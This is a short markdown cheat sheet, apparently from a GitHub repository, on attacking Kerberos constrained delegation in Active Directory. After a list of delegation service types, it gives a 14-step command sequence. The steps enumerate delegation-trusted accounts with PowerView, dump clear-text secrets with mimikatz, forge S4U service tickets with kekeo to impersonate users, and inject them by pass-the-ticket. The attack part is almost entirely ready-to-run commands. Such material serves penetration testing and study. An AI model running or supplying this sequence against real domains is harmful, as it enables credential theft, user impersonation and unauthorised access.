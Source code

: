 # Constrained vs Unconstrained

## Delegation configuration

#### 1) HTTP

#### 2) CIFS

#### 3) LDAP

#### 4) HOST

#### 5) MSSQL

# Constrained Delegation Exploitation 

## Example:

#### 1) Import-Module c:\tools\Powerview.ps1

#### 2) Get-NetUser -TrustedToAuth

#### 3) mimikatz.exe

#### 4) token::elevate

#### 5) lsadump::secrets (Pulls clear text credentials from registry hive)

#### 6) Exit mimikatz after "token::elevate" command

#### 7) keko.exe

#### 8) tgt::ask /user:USER/SERVICE /domain:DOMAIN /password:PASSWORD

#### 9) tgs::s4u /tgt:TICKET.KIRBI /user:USER /service:SERVICE *You can run same command to impersonate more services.

#### 10) mimikatz

#### 11) privilege::debug

#### 12) kerberos::ptt TICKET.KIRBI

#### 13) kerberos::ptt TICKET2.KIRBI

#### 14) klist
